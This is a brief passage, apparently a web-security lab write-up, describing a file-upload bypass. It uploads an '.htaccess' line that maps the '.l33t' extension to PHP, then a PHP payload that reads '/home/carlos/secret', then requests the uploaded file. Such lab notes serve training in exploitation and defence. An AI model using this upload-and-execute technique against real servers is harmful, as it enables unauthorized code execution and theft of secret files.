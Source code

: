If directory just returns file content, try to upload `.htaccess`
```htaccess
AddType application/x-httpd-php .l33t
```
then upload
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
then access your file `/uploads/exploit.l33t`

